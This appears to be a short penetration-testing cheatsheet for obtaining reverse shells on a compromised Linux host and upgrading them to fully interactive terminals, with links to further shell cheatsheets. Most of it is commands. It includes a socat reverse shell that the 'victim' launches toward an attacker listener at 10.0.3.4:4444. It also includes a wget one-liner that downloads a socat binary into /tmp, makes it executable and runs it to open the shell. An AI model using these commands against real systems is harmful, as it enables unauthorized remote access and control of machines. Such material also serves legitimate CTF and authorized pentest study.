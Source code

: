 # Cheatsheets
- https://netsec.ws/?p=337
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell

# web ttys
- https://github.com/maxmcd/webtty

# python
```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

# socat
On Kali (listen):
```
socat file:`tty`,raw,echo=0 tcp-listen:4444  
```

On Victim (launch):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
```
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

# netcat
Send `nc` to background
Check the term name and size on local machine with:
```
echo $TERM
stty -a
```
```
stty raw -echo  
```
`fg` to being `nc` back up
```
reset
export SHELL=bash
export TERM=xterm
stty rows 38 columns 116
```

> https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
